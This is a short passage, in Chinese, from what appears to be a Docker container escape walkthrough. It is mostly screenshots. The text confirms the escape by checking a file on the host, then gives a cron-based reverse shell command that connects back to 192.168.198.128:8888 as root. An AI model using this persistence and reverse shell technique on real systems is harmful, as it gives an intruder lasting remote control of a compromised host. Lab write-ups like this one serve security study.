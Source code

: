 ![image-20231008151145940](Docker逃逸.assets/image-20231008151145940.png)


这时去查看刚刚我们在宿主机根目录中创建的flag.txt文件，看其是否存在，就能判断出我们当前是否已经成功跳出docker容器

![image-20231008151155099](Docker逃逸.assets/image-20231008151155099.png)


这里可以看到我们现在已经成功跳出了docker容器，获得了宿主机的权限，可以使用计划任务反弹shell`echo '* * * * * bash -i >& /dev/tcp/192.168.198.128/8888 0>&1' >> /var/spool/cron/root`

![image-20231008151203454](Docker逃逸.assets/image-20231008151203454.png)
